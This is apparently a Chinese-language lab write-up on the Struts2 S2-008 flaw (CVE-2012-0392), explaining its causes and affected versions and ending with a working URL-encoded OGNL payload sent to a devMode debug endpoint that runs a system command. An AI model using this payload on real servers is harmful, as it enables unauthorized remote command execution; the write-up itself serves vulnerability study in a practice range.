

# Struts2-008命令执行（CVE-2012-0392）by [Frivolous-scholar](https://github.com/Frivolous-scholar)

## 漏洞概述

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

## 漏洞成因

主要利用对传入参数没有严格限制，导致多个地方可以执行恶意代码。

第一种情况其实就是 S2-007，在异常处理时的 OGNL 执行
第二种的 cookie 的方式，虽然在 struts2 没有对恶意代码进行限制，但是java的 webserver（Tomcat），对 cookie 的名称有较多限制，在传入 struts2 之前就被处理，从而较为鸡肋
第三种需要开启 devModedebug 模式

例如在 devMode 模式下直接添加参数 ?debug=command&expression= 会直接执行后面的 OGNL 表达式.

影响版本：Struts 2.1.0 - Struts 2.3.1

启动靶场。

利用 POC 拿到 Flag

`/devmode.action?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ls%27%29.getInputStream%28%29%29%29`

